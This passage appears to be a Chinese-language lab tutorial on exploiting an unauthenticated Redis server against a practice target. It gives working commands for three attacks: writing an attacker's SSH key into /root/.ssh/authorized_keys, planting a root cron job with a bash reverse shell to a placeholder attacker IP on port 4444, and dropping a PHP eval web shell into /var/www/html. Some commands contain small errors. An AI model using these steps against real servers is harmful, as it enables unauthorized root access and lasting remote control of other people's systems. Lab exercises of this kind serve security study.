 ![图片](https://uploader.shimo.im/f/JuuO9dJ7z30nBlaI.png!thumbnail)

此处直接使用默认的存储地址。 
之后输入大于四位数的密码，这里应为是实验，所以使用弱口令方便记忆 ‘123456’

![图片](https://uploader.shimo.im/f/4kvhpSsB5QwCcPik.png!thumbnail)

之后将生成的问公钥写入 /temp/test.txt  中

```
(echo -e "/n/n";cat ~/.ssh/id_rsa.pub;echo -e "\n\n" ) > /tmp/text.txt
```

![图片](https://uploader.shimo.im/f/iyVMrwJ9glIe41Fb.png!thumbnail)
### [ 连接靶机redis ]
使用如下命令将刚才生成的公钥文件写入靶机的 /root/.ssh 文件夹的authotrized_keys 文件中
```
cat /tmp/text.txt | /usr/redis/redis-cli -h 172.16.12.2 -p 6379 -x set crackit
```

![图片](https://uploader.shimo.im/f/zZBiDEWNqR8Bz58x.png!thumbnail)

之后连接目标靶机，并将目录设定为我们需要的目录以及创建所需要的文件

```
/usr/redis/redis-cli -h 172.16.12.2 -p 6379
config set dir /root/.ssh/
config get dir
config set dbfilename "authorized_keys"
save
```

![图片](https://uploader.shimo.im/f/8vXtF25vgfIGe3jM.png!thumbnail)

之后用ssh进行连接：
![图片](https://uploader.shimo.im/f/3smWGY0dNNIViSZD.png!thumbnail)

![图片](https://uploader.shimo.im/f/Bqj3MNjcwAYebzpz.png!thumbnail)
###   【攻击方法二】
直接向靶机的Crontab写入任务计划，反弹shell回来
```
./redis-cli -h 192.168.152.128
set xxx "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/你的攻击机IP/4444 0>&1\n\n"
config set dir /var/spool/cron
config set dbfilename root
save
```

然后在攻击机上启动 nc 监听 4444端口，等待反弹shell。这过程需要一些时间。
###  【攻击方法三】
这种方法适合非root权限，但需要对方有web服务。
假设靶机里面存在WEB服务并且目录在 /var/www/ 中
```

config set dir /var/www/html
config set xxx "\n\n\n<?php @eval($_POST['c']);?>\n\n\n"
config set dbfilename webshell.php
save
```
